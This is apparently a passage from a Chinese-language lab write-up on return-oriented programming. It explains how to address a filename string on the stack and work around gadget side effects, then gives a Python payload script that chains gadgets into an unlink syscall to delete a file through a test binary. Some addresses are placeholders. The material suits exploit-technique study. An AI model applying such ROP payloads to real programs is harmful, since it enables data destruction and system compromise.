 ### 取字符串地址
假设我们将文件名字符串放在栈上，那么取字符串地址的方法和`return to shellcode`实验相同，仅需要知道`buf`的首地址即可计算字符串的地址。**注意**：文件名字符串应放到payload的最后位置，否则会出现截断问题或者删除时文件名不存在。（C语言中字符串是以`'\0'`结尾的）  


### 副作用
例如在该试验中遇到的副作用：
```
int 0x80 ; pop eax ; ret
```
当执行完`int 0x80`后，又执行了`pop eax`，因此需要在栈上多放置一个长度为4字节的数据，消除`pop eax`副作用。
```
int 0x80 ; push esi ; ret
```
同理，在执行完`int 0x80`后，执行`push esi`后，此时`esp`指向刚`push`到栈上的数据，也就是`esi`的内容，为了消除该副作用，可以在执行`int 0x80`之前，将`esi`赋值为需要的`ret addr`。


### 最终版的payload
版本1
```python
from struct import *
# buf to ret_addr
offset = 0xff

base_libcaddr = 0xffffffff
buf_addr = 0xffffffff
# Padding goes here

p = ''
p += offset * 'A'

p += pack('<I', pop_ebx_addr + base_libcaddr) # pop ebx ; ret
p += pack('<I', buf_addr + fileName_string_offset)    # data addr

p += pack('<I', xor_eax_addr + base_libcaddr) # xor eax, eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret

# side effect
p += pack('<I', 0x8048623) # int 0x80 ; pop eax ; ret
p += pack('<I', 0xffffffff)

# exit()
p += pack('<I', xor_eax_addr + base_libcaddr) # xor eax, eax ; ret
p += pack('<I', inc_eax_addr + base_libcaddr) # inc eax ; ret
p += pack('<I', ?) # int 0x80 ; pop eax ; ret
p += pack('<I', 0xffffffff)

# file name string
p += 'data\0'
print(p)
```
可以运行`python attack.py > payload`产生payload文件。
使用`./rop_test payload`完成攻击（删除当前路径下data文件）。
